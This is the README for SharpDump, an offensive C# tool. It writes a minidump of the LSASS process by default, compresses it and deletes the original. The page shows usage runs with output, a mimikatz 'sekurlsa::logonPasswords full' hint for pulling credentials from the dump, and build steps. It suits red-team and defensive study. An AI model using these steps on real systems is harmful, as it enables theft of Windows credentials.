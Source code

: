 # SharpDump

----

SharpDump is a C# port of [PowerSploit's Out-Minidump.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Out-Minidump.ps1) functionality. The [MiniDumpWriteDump](https://docs.microsoft.com/en-us/windows/desktop/api/minidumpapiset/nf-minidumpapiset-minidumpwritedump) Win32 API call is used to create a minidump for the process ID specified (LSASS by default) to C:\Windows\Temp\debug<PID>.out, GZipStream is used to compress the dump to C:\Windows\Temp\debug<PD>.bin (.gz format), and the original minidump file is deleted.

[@harmj0y](https://twitter.com/harmj0y) is the primary author of this port.

SharpDump is licensed under the BSD 3-Clause license.

## Usage

Dump LSASS:

    C:\Temp>SharpDump.exe

    [*] Dumping lsass (808) to C:\WINDOWS\Temp\debug808.out
    [+] Dump successful!

    [*] Compressing C:\WINDOWS\Temp\debug808.out to C:\WINDOWS\Temp\debug808.bin gzip file
    [*] Deleting C:\WINDOWS\Temp\debug808.out

    [+] Dumping completed. Rename file to "debug808.gz" to decompress.

    [*] Operating System : Windows 10 Enterprise N
    [*] Architecture     : AMD64
    [*] Use "sekurlsa::minidump debug.out" "sekurlsa::logonPasswords full" on the same OS/arch


Dump a specific process ID:

    C:\Temp>SharpDump.exe 8700

    [*] Dumping notepad++ (8700) to C:\WINDOWS\Temp\debug8700.out
    [+] Dump successful!

    [*] Compressing C:\WINDOWS\Temp\debug8700.out to C:\WINDOWS\Temp\debug8700.bin gzip file
    [*] Deleting C:\WINDOWS\Temp\debug8700.out

    [+] Dumping completed. Rename file to "debug8700.gz" to decompress.

## Compile Instructions

We are not planning on releasing binaries for SharpDump, so you will have to compile yourself :)

SharpDump has been built against .NET 3.5 and is compatible with [Visual Studio 2015 Community Edition](https://go.microsoft.com/fwlink/?LinkId=532606&clcid=0x409). Simply open up the project .sln, choose "release", and build.
